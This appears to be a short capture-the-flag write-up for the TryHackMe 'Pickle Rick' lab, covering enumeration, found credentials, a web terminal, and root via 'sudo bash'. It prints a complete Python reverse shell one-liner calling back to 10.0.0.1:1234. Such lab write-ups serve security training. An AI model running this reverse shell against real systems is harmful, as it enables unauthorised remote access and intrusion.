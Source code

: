 ```yaml
---
title: Pickle Rick
permalink: pickleRick
---
```

# ![front](saharshtapi.github.io/images/pickleRick/front.png)
[https://tryhackme.com/room/picklerick](https://tryhackme.com/room/picklerick)

## Open Ports:
  - 21: ssh
  - 80: HTTP
  
## Port 80:
1. find sub-doamisn and directories usind **dirb** + **dirbuster**
   - ip/robots.txt **(we find passwd)**
   - ip/index **(username in the source Page)**
   - ip/portal.php **(found username and password)**
   
## Gaining Access:
 **We find a terminal inside the website**
 - Add the python reverse shell command 
    >python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
 - listening via netcat will gain you access to the **BOX**
### 1st Flag:
![user_flag](saharshtapi.github.io/images/pickleRick/1st.png)
### 2nd Flag:
![user_flag](saharshtapi.github.io/images/pickleRick/2nd.png) 


## Privilege Escalation:
 - sudo -l
    - All users are sudp 
      > 'sudo bash'
    
### 3rd Flag:
![rootflag.png](saharshtapi.github.io/images/pickleRick/3rd.png)
